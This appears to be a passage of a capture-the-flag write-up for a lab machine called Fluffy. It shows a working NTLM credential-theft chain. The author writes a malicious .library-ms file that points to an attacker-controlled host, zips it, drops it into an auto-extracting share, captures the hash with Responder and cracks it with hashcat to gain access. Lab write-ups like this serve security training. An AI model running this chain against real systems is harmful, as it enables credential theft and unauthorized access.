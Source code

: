 The IT share already contained extracted ZIP files, which suggested that anything we upload here will automatically be unzipped. but we are not  sure is the machine still vulnerable to that cve

I crafted a malicious `.library-ms` file pointing to my attacker machine:

```bash
echo '<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\10.10.14.134\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>' > document.library-ms && zip exploit.zip document.library-ms && rm document.library-ms
```

Started Responder to capture hashes:

```bash
sudo responder -I tun0 -wvF
```

put the zip file into the share and wait, and we did get some reply : 

![](Season%208%20-%20Fluffy-1.png)
let's try to crack it with `hashcat`
```sh
hashcat ./net-ntlmv2.hash /usr/share/wordlists/rockyou.txt
```

and we got the password
Testing access showed `p.agila` could authenticate over SMB and LDAP
![](Season%208%20-%20Fluffy-2.png)
